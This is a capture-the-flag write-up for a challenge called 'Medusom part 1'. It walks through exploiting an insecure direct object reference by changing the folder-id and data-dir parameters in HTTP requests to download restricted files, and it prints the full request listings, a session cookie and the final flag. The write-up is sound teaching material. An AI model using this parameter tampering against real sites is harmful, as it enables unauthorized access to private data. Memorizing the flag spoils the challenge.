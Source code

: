 # Medusom [part 1] - Write up

> I don't have screenshots for this challenge, I'm sorry 😥 I will try my best to explain the challenge !

For this challenge, we need to attack a website to download some data that we are not authorized to see. <br>
To do that, we will exploit an IDOR (Insecure Direct Object Reference).

When we click on "download" for an authorized file, a POST request with several parameters is made :
- <strong>explorer</strong>
- <strong>file-download</strong> #boolean : we give it the value "true" for download a file
- <strong>folder-id</strong> #the id of the folder
- <strong>data-dir</strong> #the file we're interested in

```
POST /ajax/listing-post HTTP/1.1
Host: 141.94.222.142:57411
Content-Length: 95
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/mWeqC0lstvYVFQ5Xuy8igsxa
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close

explorer=true&file-download=true&folder-id=1&data-dir=airbus%2FAIRBUS_INTELLIGENCE%2Fdetails.md
```

Just after that, a GET request is made with the same parameters :

```
GET /ajax/listing-post?file-download=true&folder-id=1&data-dir=airbus%2FAIRBUS_INTELLIGENCE%2Fdetails.md HTTP/1.1
Host: 141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/mWeqC0lstvYVFQ5Xuy8igsxa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close
```

To exploit the vulnerability, we just need to change the folder-id and the data-dir parameters to download the files of our choice 😀

<br>

The files that we want to download are in the folder id 11 and their names are :
<strong>
- flag.txt
- NOTES.txt
- map.png
- NOTES.txt
- RECAP.pdf
- requests
- Skiblili.odt
- code.zip
- ._lock.Skiblili.odt#
</strong>


We are going to download them one by one, by modifying the value of the folder-id parameter by <em>11</em> and the value of the data-dir parameter by the different filenames that I wrote.

So for the requests, we will have something like that for all the files we want :

```
POST :

POST /ajax/listing-post HTTP/1.1
Host: 141.94.222.142:57411
Content-Length: 95
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/O7PO1YC3aWIFBijpFqM8pvAzEBgY0IKDuSp
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close

explorer=true&file-download=true&folder-id=11&data-dir=PATH\TO\FILE.txt

GET :

GET /ajax/listing-post?file-download=true&folder-id=11&data-dir=PATH\TO\FILE.txt HTTP/1.1
Host: 141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/O7PO1YC3aWIFBijpFqM8pvAzEBgY0IKDuSp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close
```

There is however one subtility for the file <strong><em>._lock.Skiblili.odt#</em></strong> :<br>

Because of the <strong>#</strong> at the end of the filename, we first need to URL encode it :

![Sans titre](https://user-images.githubusercontent.com/66923124/164997569-897b07e5-400a-4e32-94ed-0c3cfcefa661.png)

<strong>So data-dir=%2e%5f%6c%6f%63%6b%2e%53%6b%69%62%6c%69%6c%69%2e%6f%64%74%23 for this file </strong>

<br>

After we downloaded all the files, we need to read them !

![files](https://user-images.githubusercontent.com/66923124/164997733-47d0c367-2178-48e8-a2b0-e68fcf607662.png)

<strong>flag.txt is a troll :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997796-463f9c60-ab16-4ea8-97be-16ccb870b5a0.png)

<strong>NOTES.txt is the first part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997815-b8a93a20-385d-491a-83b6-af6ee43f7751.png)

<strong>RECAP.pdf is the second part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997851-8f7769aa-17f8-4882-8805-5f3340df89a4.png)

<strong>map.png is the third part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997888-f01220d6-857f-491a-98ef-68c60460747d.png)

<strong>In code.zip, there is a file named code.txt, which is the last part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997950-abce7f23-85d7-42f0-b2e5-722f40e6dd6f.png)


After we concatenate all the four strings we obtain the flag :

<strong> FLAG : MCTF{1D0R_f0r_th3_w1n} </strong>
